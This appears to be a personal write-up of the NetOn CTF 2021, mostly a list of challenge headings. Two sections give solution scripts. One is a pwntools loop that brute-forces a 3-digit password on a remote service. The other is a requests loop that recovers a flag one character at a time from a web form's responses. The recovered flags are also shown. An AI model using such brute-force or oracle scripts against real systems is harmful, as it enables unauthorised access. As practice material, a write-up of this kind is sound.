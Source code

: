 # NetOn CTF 2021-03

I was excited to participate in my first ever CTF and enjoyed the experienced very much. Thanks to all of those involved in setting it up! ~<3

There were a total of 9 categories with 43 questions combined.

CTF Rules:

![](CTF%20Rules.png)

Final Top 10:

![](CTF%20Top%2010.png)

## Pwn Category

### Limited - 499

![](Challenge%20Screenshots/%20Pwn%20-%20Limited.png)

```
#!/usr/bin/env python3

# Imports
from pwn import *

# Connect parameters
host = "167.99.129.209"
port = 10002

pwd = 0
while pwd < 1000:
	# Open connection
	s = remote(host, port)
	s.recvuntil("\n")
	# Loop over given tries (re-connect afterwards)
	for j in range(3):
		# Increment trial 3-digit password and send
		pwd += 1
		s.sendline(str(pwd))
		# Get return
		rstr = s.recvuntil("\n", drop=True).decode("latin-1")
		print(rstr)
		s.recvuntil("\n")
		# Check return string
		if rstr[0] != 'S':
			print(rstr)
			pwd += 1000
		# Visual check of progress
		if pwd % 100 == 0:
			print(pwd)
	# Close connection
	s.close()
```

Although the password is randomised (as could be deduced from the provided ELF), a 3-digit password can be easily brute-forced. So to no surprise, at some point this script got lucky and got returned:

```
Nice! The flag is NETON{N1c3_ByP4sS_My_Fr13eND!}
```

I'm not sure whether this counts as a bypass... but hey, it worked. : )

## Web Category

### Welcome to FilterLand - 208

### Picnicnic - 222

![](Challenge Screenshots/Web - Picnicnic.png)



### Let me in! - 245

![](Challenge Screenshots/Web - Let me in!.png)



### Grades - 486

## Stego Category

### Jungle Meeting - 50

### Seeing blurry - UNSOLVED (50)

### Winter - 218

### Step by step - UNSOLVED (250)

### Invisibility - UNSOLVED (500)

## OSINT Category

### Caesar's Secret - 163

### Caputure The Flag - 436

## Crypto Category

### PawN PawN - 188

### Weak xor - 239

### BritishScientific - 242

### Facts Br0! - 244

### Not Morse - UNSOLVED (249)

### RSA... no primEs, no problEm - 500

## Coding Category

### Run Run Run - 215

### Step by step - 239

![](Challenge Screenshots/Coding - Step by step.png)

```
#!/usr/bin/env python

# Imports
import requests

# All ASCII characters
chrs = [chr(i) for i in range(256)]
# All characters that returned 'getting closer'
chrs = '0134:ABCDEFGLNOSTU_abcdefghilmnorstuv{}' 

#  Trial flag
flag = "S"

i = 0
while i<len(chrs):
	# Create new flag to try
	new_flag = chrs[i] + flag 
	# Push the flag to the website
	push = requests.post("http://167.99.129.209:7788/index.php",data={'flag':new_flag})
	# Check return html
	pt = push.text[50:80]
	# Check for return
	print new_flag, pt
	if pt[0] == 'H':
		flag = new_flag
		i = 0
		print flag
	elif pt[0] == 'S':
		i += 1
	else:
		print 'Found it?:', flag
		break

# Print found result
print flag
```

With some trial and error I managed to get back

```
SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3,
```

which, submitted as NETON{SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3}, turned out to be correct. : )



### SecretMessage - 247

## Forensics Category

### Infiltration - 183

### Picasso01 - 225

### Lost in Lab - 479

## Reversing Category

### File Bomb - UNSOLVED (475)

## Misc Category

### Inception - 183

### Photogra.fy - 227

### Kasiski the magician - UNSOLVED (235)

### MathTomata - 245

### Gotta catch em flag - 248

